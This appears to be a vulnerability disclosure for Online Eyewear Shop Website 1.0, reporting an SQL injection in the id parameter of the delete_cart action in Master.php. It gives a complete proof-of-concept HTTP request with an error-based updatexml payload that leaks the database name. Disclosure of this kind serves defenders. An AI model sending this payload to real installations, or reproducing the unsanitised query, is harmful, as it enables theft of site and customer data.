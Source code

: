 ## Online Eyewear Shop Website has a front-end SQL injection vulnerability

## Affected version: 
Online Eyewear Shop Website - 1.0

## Software:
https://www.sourcecodester.com/php/16089/online-eyewear-shop-website-using-php-and-mysql-free-download.html

## Vulnerability File:
/oews/classes/Master.php?f=delete_cart

## Description:
Online Eyewear Shop Website1.0 has a SQL injection attack in /oews/classes/Master.php?f=delete_cart, and the attack parameter is id. 
Attackers can exploit this vulnerability to directly obtain sensitive information from the server.

Status: Severe

POC
```
POST /oews/classes/Master.php?f=delete_cart HTTP/1.1
Host: localhost
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=p65p1sp36htfqevfnhij1jvtie
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

id=1'%20and%20updatexml(1,concat(0x7e,(database())),3)--%20q
```

Get the database name directly through the error report: oews_db
![CleanShot 2025-04-18 at 10 56 31@2x](https://github.com/user-attachments/assets/a0afe0a5-2b5c-41fd-b54e-0c4cdfb76a01)



## Code Analysis
When f=delete_cart, enter the delete_stock() function.
![CleanShot 2025-04-18 at 10 57 31@2x](https://github.com/user-attachments/assets/1099e822-d92f-4acb-a7c2-d0afec622fbd)

The id parameter is directly introduced into the SQL statement, causing a SQL injection vulnerability.
![CleanShot 2025-04-18 at 10 57 55@2x](https://github.com/user-attachments/assets/1db0f727-f719-4539-90f1-7667b719c948)



